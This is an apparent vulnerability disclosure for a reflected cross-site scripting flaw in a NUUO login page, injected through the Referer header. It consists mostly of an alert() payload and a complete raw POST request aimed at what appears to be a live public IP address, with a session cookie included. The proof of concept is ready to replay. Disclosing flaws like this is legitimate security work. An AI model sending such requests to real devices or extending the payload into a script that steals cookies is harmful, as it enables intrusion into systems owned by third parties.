 # NUUO Login page login.php Reflected XSS attack


## Affected parameter
Referer

## payload 
```
"><script>alert("XSS")</script><"
```

## The effect

![image](https://user-images.githubusercontent.com/72059221/173171676-271f80f5-2abb-46c6-b0a7-91a139360baa.png)


![image](https://user-images.githubusercontent.com/72059221/173171694-a047b8d8-fca8-4e9b-9d36-e63d27f45524.png)

## POC

```
POST /login.php HTTP/1.1
Host: 218.253.76.122:8000
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://218.253.76.122:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: "><script>alert("XSS")</script><"
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lang=en; PHPSESSID=b630e0a3b454ae69c6aacbe257435b55
Connection: close

language=11111&user=111&pass=222&submit=Login
```


